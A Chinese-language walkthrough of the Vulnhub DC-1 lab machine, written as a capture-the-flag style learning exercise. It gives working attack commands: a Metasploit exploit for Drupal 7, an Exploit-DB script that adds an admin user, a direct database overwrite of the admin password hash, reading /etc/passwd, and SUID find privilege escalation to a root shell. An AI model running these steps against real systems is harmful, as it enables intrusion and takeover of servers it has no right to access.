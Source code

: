 ```yaml
---

title: Vulnhub--DC1
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. 信息收集（http端口，源码是否有信息泄露，CMS框架是否存在框架漏洞）
2. msf利用框架漏洞获取普通用户shell
3. Drupal7的用户密码重置成功进入web端后台（尝试中间件漏洞提权）
4. SUID提权

## 知识扩展

1. drupal7框架漏洞CVE-2018-7600
2. msf的框架模块利用getshell
3. SUID-find提权

## 靶机地址

https://www.vulnhub.com/entry/dc-1,292/

## 主机发现

（1）攻击机

```python
192.168.186.135
```

（2）目标主机

```py
192.168.186.158
```

## 信息收集

### 端口扫描

![image-20240828110135799](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281101953.png)

### 目录访问

（1）80端口源码查看

![image-20240828110146920](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281101979.png)

（2）无敏感信息，有CMS(内容管理系统)版本

![image-20240828110156896](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281101956.png)

（3）robots协议查看

![image-20240828110205734](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281102796.png)

## 实施攻击

（1）CMS版本为drupal 7，搜索查看是否存在CMS漏洞

![image-20240828110212010](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281102076.png)

（2）MSF进行drupal7利用

```python
search drupal        			 #搜索对应模块
use         	     	 	   	 #使用对应模块
set rhosts 192.168.186.158        #设置模块应用的主机IP（存在漏洞的靶机）
run                               #运行模块脚本
shell    						#获得shell
python -c 'import pty;pty.spawn("/bin/bash")'    #美化shell
```

![image-20240828111255577](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281112717.png)

![image-20240828110423474](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281104607.png)

![image-20240828110442168](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281104283.png)

![image-20240828110503257](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281105349.png)

![image-20240828110450458](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281104552.png)

（3）基本信息收集，拿到提示信息（配置文件)

```py
whoami        #查看当前用户
pwd           #查看当前所在路径      
ls            #查看当前目录下文件
```

![image-20240828110530856](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281105962.png)

![image-20240828112202910](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281122033.png)

（4）搜索Drupal系统的默认配置文件信息

![image-20240828110628324](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281106397.png)

（5）find命令找出配置文件所在位置，查看配置信息（得到数据库信息）

```python
find / -name 文件名    #在根目录下根据文件名进行查找
find / -name default.settings.php
```

![image-20240828110641874](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281106943.png)

![image-20240828110703697](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281107835.png)

（6）进入数据库，进行数据库信息收集

```python
mysql -u 数据库名 -p
mysql -u dbuser -p
show databases;    #列出数据库
use drupaldb;      #进入drupaldb数据库
show tables;       #列出数据库中所有的表
```

![image-20240828112253017](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281122118.png)

![image-20240828110756092](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281107242.png)

（7）查看数据库用户表（发现管理员用户，但是密码是加密的）

```python
select *from users    #列出users表中的信息
```

![image-20240828110810400](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281108483.png)

（8）知道管理员用户的存在，如果能修改管理员用户密码，就能进入后台，查询一下是否存在默认重置密码功能

![image-20240828110834417](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281108485.png)

（9）官方提供两种解决办法，注册新的管理员用户或者修改密码

![image-20240828110843750](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281108821.png)

#### 方法一

（1）msf查询下针对drupal框架攻击的脚本

```py
searchsploit drupal    #查找drupal可利用模块
```

![image-20240828110853582](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281108706.png)

（2）查看靶机drupal版本

```py
cat /var/www/includes/bootstrap.inc | grep VERSION
```

![image-20240828110925989](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281109047.png)

（3）版本满足条件，可以使用增加admin用户的脚本，

```py
searchsploit 34992.py -p #查看脚本的路径
```

![image-20240828110932375](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281109451.png)

（4）访问HTTP路径，下载脚本修改或者通过命令直接修改

```py
python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.186.158 -u admin1 -p 666    #python3环境可能会报错
```

![image-20240828110944540](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281109604.png)

#### 方法二

（1）找到系统默认的加密scripts脚本，

```py
find / -name scripts    #drupal默认hash加密脚本是在drupal7项目所在目录，所以是在网站的根目录下
```

![image-20240828110952686](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281109791.png)

（2）得到新密码的hash值

```py
php scripts/password-hash.sh 新密码
php scripts/password-hash.sh 666
```

![image-20240828111005589](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281110717.png)

（3）回到数据库，重置管理员密码

```py
update drupaldb.users set pass="$S$DGbrDoNc82wkOtVKRZ/oWQ7tJN1Et5GaqpZ4N5BDzaWzihbT7VGB" where name="admin";
```

![image-20240828111017999](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281110107.png)

（4）以管理员身份登录后台

![image-20240828111031340](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281110409.png)

（5）翻找历史记录

```py
/etc/passwd    #一个文本文件，存储用户账号信息，用户ID,组ID，shell等
/etc/shadow    #是/etc/passwd的影子文件，存有密码信息，通常需要root权限才能访问
```

![image-20240828111038178](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281110241.png)

![image-20240828111046020](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281110081.png)

（6）查看/etc/passwd文件（发现flag4在/home/flag4目录下）

![image-20240828111052013](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281110105.png)

（7）拿到flag4的提示，最后一个flag在root目录中

![image-20240828111059799](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281110931.png)

## 提权

（1）查找具备SUID权限的可执行文件

```py
#不同系统对应命令不同，都试一下
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb{}
```

![image-20240828111133535](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281111661.png)

（2）有find文件，再次确认find文件的文件拥有者（属主）

```py
ls -l /usr/bin/find
```

![image-20240828111142181](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281111335.png)

（3）find提权

```py
find / -exec '/bin/sh' \;
```

![image-20240828111151054](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281111144.png)